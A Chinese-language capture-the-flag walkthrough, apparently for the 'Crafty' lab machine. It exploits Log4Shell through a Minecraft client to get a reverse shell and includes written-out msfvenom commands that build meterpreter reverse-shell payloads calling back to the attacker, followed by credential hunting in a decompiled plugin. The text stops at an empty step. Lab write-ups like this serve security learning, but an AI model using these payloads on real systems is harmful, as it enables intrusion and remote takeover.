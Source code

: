 Crafty Level:Easy
===
尋找user.txt
---
    1.執行Nmap蒐集資訊
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcb9fa95-f96f-4688-88d0-ef140cf168a6)

    2.目錄列舉，發現一個js資料夾是403

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f5b4d0b6-d52e-48ea-9c03-ed9bf1a63722)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/711cd664-28f2-46c3-b9ab-72df376aa95f)

    3.在使用dirbuster列舉，發現js資料夾裡面有main.js

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5673fc1-5556-4cf8-ad8b-2bd90a58b769)

    4.開啟main.js，有一段內容引人注目
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a3c42d5c-3937-4ac7-982e-0e4bf796c188)

這段程式碼主要功能是取得和顯示一個遊戲伺服器上的線上玩家數量。大概指的是mc伺服器，它透過定期查詢一個外部API來實現這一點，裡面運用了**updatePlayercount函數，**先是向https://api.bybilly.uk/api/players/${ip}/ ${port}發送一個GET請求，查詢指定IP和端口的遊戲伺服器的在線玩家數量，如果返回的是online，則顯示在.sip裡面，如果不返回online，說明斷線了，然後會在.playercount中顯示相應的信息，並使用setInterval設置一個定時器，每60秒調用一次updatePlayercount函數以定期更新玩家數量，裡面的是25565端口值得是mc的默認端口，這次利用log4j的poc來反彈shell，這次利用的是CVE-2021-44228編號的poc（也稱為Log4Shell漏洞）

    5.找到Log4Shell POC，執行前先下載jdk並變更檔名為jdk1.8.0_20
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc)

[jdk](https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/216407a1-9d28-4028-87dd-07ea685ce016)

    6.修改poc.py，因系統為Windows所以改成cmd.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6fd8f14f-7aa9-4cac-afb0-e598f6603cd4)

    7.執行poc.py，會產生一組LDAP位置

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/066b4a78-ee68-4dd8-9260-763098dc1745)

    8.下載mc工具
[mc工具](https://github.com/ammaraskar/pyCraft)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b7d546bd-d42f-483b-81d7-24f192eb4cc6)

    9.執行mc工具，出現連接後輸入LDAP位置
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db107bb6-81f3-4335-9ff5-21535330d8af)

    10.log4j會出現200，nc就會成功反彈shell

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/908cdb72-8770-4997-bf80-6b79d9b29319)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/23f5dcf6-c18b-458d-8d54-4c19a9c83522)

    11.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e333a12-f6d2-49c3-ae1c-69e2aaae7af8)

尋找root.txt
---
    12.在plugins底下發現有一個.jar的檔案，需下載檢查內容

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9510f70e-68d6-4bef-91e8-24460b8e0326)

    13.使用msfvenom建立一個reverse shell
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o expl.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5ceb9f4-3f51-4d13-9321-191fc35e0a5a)

    14.使用msf建立reverse連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b4d6cdf8-2705-4eac-a4db-cf64ce8ae515)

    15.將製作好的reverse shell傳輸到Windows上

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e9bb9934-d1f5-40da-bd8c-68f47607fc59)

    16.執行expl.exe，msf會取得連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d4431f48-4295-47bc-b419-b62d84f61223)

    17.在msf上直接download .jar檔案

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/67d6a99c-5dbf-45e8-a894-a2cf8f93cb22)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db619987-8f13-4d72-8dc5-b8eb05c5974f)

    18.反編譯.jar檔檢視內容，發現一組很像密碼的字串

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/26564a79-7f1e-4637-8226-a375a26d0780)

    19.找到RunasCs工具
    
[RunasCs](https://github.com/antonioCoco/RunasCs/releases)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0b15b409-49bf-48cb-8a41-a521f69537ff)


    20.使用msfvenom另外建立一個reverse shell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4246 -f exe -o exp2.exe

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/4392be79-8ed0-4349-b9ff-73f93da94669)

    21.
